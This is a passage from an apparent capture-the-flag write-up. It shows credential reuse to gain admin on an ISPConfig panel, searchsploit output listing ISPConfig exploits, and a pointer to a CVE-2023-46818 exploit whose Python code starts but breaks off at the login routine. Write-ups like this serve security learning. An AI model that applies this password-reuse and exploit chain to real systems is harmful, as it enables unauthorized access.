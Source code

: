 ![](https://res.cloudinary.com/djo6idowf/image/upload/v1751662642/image_zqdmri.png)

`tobias` did not work, but if you re-use his password with all of the usernames we found earlier with the hashes, you will find that `admin` also uses this password and you can get in.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1751662640/2025-07-02_19-04_iunxlz.png)

So with most challenges like this it’s probably something to do with the obscure software that is being used. Next step is to figure out the version number of the software the site uses and see if there are any easy exploits.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1751662646/2025-07-02_19-08_nlm2dl.png)

`searchsploit ISPConfig`

```
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                            |  Path
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ISPConfig - (Authenticated) Arbitrary PHP Code Execution (Metasploit)                                                     | php/remote/29322.rb
ISPConfig 2.2.2/2.2.3 - 'Session.INC.php' Remote File Inclusion                                                           | php/webapps/27845.php
ISPConfig 2.2.3 - Multiple Remote File Inclusions                                                                         | php/webapps/28027.txt
ISPConfig 3.0.5.4p6 - Multiple Vulnerabilities                                                                            | php/webapps/37259.txt
ISPConfig 3.0.54p1 - (Authenticated) Admin Privilege Escalation                                                           | linux/webapps/34241.txt
ISPConfig < 3.1.13 - Remote Command Execution                                                                             | php/webapps/45534.py
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Doesn’t seem to be anything here, but it’s not always a conclusive list.

[NVD - CVE-2023-46818](https://nvd.nist.gov/vuln/detail/CVE-2023-46818)

https://github.com/ajdumanhug/CVE-2023-46818

```python
import base64
import requests
import sys
import re
import random
import string
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def ensure_url_structure(url):
    if not url.startswith(('http://', 'https://')):
        print("[-] URL missing scheme (http:// or https://), adding http:// by default.")
        url = "http://" + url
    if not url.endswith('/'):
        url += '/'
    return url

def login(url, username, password, session):
    login_url = f"{url}login/"
    data = {
        'username': username,
```